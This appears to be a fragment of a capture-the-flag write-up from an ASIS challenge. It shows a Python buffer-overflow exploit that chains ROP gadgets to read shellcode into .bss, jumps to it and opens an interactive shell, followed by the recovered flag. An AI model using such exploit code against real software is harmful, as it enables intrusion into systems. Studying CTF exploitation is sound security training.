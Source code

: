 ```python
payload = ''
payload += 'A' * 24
payload += p64(addr_pop_rdi)
payload += p64(0)
payload += p64(addr_pop_rsi_r15)
payload += p64(addr_bss)
payload += p64(1024)
payload += p64(addr_read)
payload += p64(addr_bss)
s.send(payload)
time.sleep(.5)

s.send(shellcode)
s.interactive()
```

```
ASIS{y0_execstack_saves_my_l1f3}
```
